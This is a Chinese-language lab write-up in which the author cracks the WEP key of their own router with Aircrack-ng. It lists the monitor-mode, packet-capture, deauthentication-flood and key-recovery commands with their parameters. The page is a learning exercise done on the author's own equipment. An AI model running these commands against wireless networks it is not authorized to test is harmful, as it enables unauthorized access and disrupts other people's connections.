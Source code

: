 # Wireless - WEP Cracking by Aircrack-ng

Created by : Mr Dk.

2018 / 12 / 04 16:48

Nanjing, Jiangsu, China

---

## Tools

_Aircrack-ng_ on _Kali Linux x64_

_Aircrack-ng_ 是一个分析 _IEEE 802.11_ 标准网络的安全软件

主要功能包括：

* 网络侦测
* 数据包嗅探
* _WEP_、_WPA_、_WPA2_ 破解

---

## Procedure

#### 将路由器配置为 _WEP_ 加密模式

![wep-crk-router](../img/wep-crk-router.png)

为了简单起见，将密钥设置为 `12345`

### 插入无线网卡并查看是否被 _OS_ 识别

```console
$ ifconfig
```

![wep-crk-init](../img/wep-crk-init.png)

可以看到插入的 _USB_ 网卡已被识别，并被命名为 `wlan0`

### 将网卡设置为监控模式

```console
$ airmon-ng start wlan0
```

![wep-crk-mon](../img/wep-crk-mon.png)

### 查看网卡是否已进入监控模式

```console
$ ifconfig
```

![wep-crk-ifconfig](../img/wep-crk-ifconfig.png)

可以看到 `wlan0` 网卡进入监控模式后被命名为 `wlan0mon`

### 使用网卡监控空间内的无线网络通信状态

```console
$ airodump-ng wlan0mon
```

![wep-crk-target](../img/wep-crk-target.png)

从所有的设备中选择要破解的目标

### 抓取攻击目标的数据包

```console
$ airodump-ng -w test -c 11 --bssid 00:6B:8E:5E:7E:E8 wlan0mon
```

参数信息：

* `-w` 表示数据包写入的文件路径
* `-c` 表示监听的信道 _channel_
* `--bssid` 表示监听设备的 _MAC_ 地址
* 最后一个参数为网卡名

![wep-crk-pkg](../img/wep-crk-pkg.png)

可以看到选定的目标 _AP_ - `Mr.Drivingduck` 的加密方式为 _WEP_

有两个客户端连接到了该 _AP_ 上 - 分别是我的 `iPhone X` & `Surface Pro`

### 获取大量数据包

获取的数据包越多，获取到的 _IV_ 值就越多，破解的概率就越大

可以对连接到该 _AP_ 的客户端使用 __洪泛解除认证攻击__，迫使客户端发送重新连接的数据包，从而获得更多数据包

```console
$ aireplay-ng -0 10 -a 00:6B:8E:5E:7E:E8 -c B8:C1:11:02:B7:05 wlan0mon
```

参数信息：

* `-0` 表示洪泛攻击，之后表示洪泛攻击的次数
* `-a` 表示被攻击 _AP_ 的 _MAC_ 地址
* `-c` 表示被攻击客户端设备的 _MAC_ 地址
* 最后一个参数为网卡名

为了方便，我没有使用洪泛攻击的方式获取大量数据包

我使用的方法是，用 `Surface Pro` 开启百度云盘下载一个很大的文件，从而发出大量数据包

### 利用抓取到的数据包进行破解

```console
$ aircrack-ng -a 1 test-01.cap
```

参数信息：

* `-a` 表示破解模式，`1` 表示 _WEP_ 破解
* 最后的参数为抓取到的数据包文件

![wep-crk-result](../img/wep-crk-result.png)

总共利用了 `27563` 个数据包，破解出了 `5` 位的 _WEP_ 密钥

如果使用 `13` 位密钥，可能需要抓取更多数据包

---

## Summary

亲身体验了一次当黑客的感觉

_WEP_ 确实是一个很弱的加密方式

在嗅探到的所有设备里

除了我自己人为设定为 _WEP_ 加密的 _AP_

其余设备都使用 _WPA2_ 加密

但是这款软件可以将网卡设置为 __监控模式__

还可以发起 __解除认证洪泛攻击__

我认为可以用来测试 _kismet_ 的攻击报警模块

待实验验证

---


